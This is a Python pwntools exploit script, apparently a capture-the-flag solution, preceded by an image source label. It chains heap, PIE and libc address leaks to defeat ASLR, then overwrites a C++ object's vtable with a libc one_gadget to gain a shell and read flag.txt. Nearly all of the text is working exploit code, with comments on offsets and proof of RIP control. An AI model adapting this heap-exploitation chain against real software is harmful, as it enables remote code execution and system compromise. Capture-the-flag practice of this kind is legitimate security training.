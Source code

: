 ```python
# step 2: heap leak -> PIE leak -> libc leak
foods1_offset = next(i for i in range(0,99999,0x1000) if b'\0aaaaaaa\0' in (dat := pack(leak(heapbase+i,0x1000),'all'))) # note that this is actually a constant, but I prefer finding the offset dynamically
pie_leak = leak(heapbase+foods1_offset+dat.index(b'\0aaaaaaa\0')-23) # this is a leak of foods[1].vtable.
context.binary.address = pie_leak - (0x2e7d78 if checkWhich(1) == 'bamboo' else 0x2e7d50) # offset to the .relro vtable of Bamboo/Food. Find value from IDA or gdb
log.info('PIE: '+hex(context.binary.address))
assert is_addr.base(context.binary.address)
context.libc = context.libc_database.libc_find({f:leak(context.binary.got[f]) for f in ['malloc', 'free']}) # libc6_2.27-3ubuntu1.4_amd64

# step 3: overwrite vtable to &one_gadget
og = context.libc.select_gadget(1) # empirical testing for working one_gadget
#og = context.binary.address+0x15bc0 # <--- proof of RIP control; this will cause "om nom nom" to appear 100% of the time
alloc(2, pack(og)*0x1ff) # flood the heap with the one_gadget to make finding heap offset easier
log.info('one_gadget: '+hex(og))
#print(pack(leak(og, 200),'all')) # <--- evidence that *one_gadget is real
fakeFood(pack(heapbase+next(i for i in range(0,0x5000,0x800) if leak(heapbase+i) == og)))
flush()
Eat()
r.sendlineafter('choice: \n', 'cat flag.txt\nexit')
log.info(r.recvall().strip().decode())
```
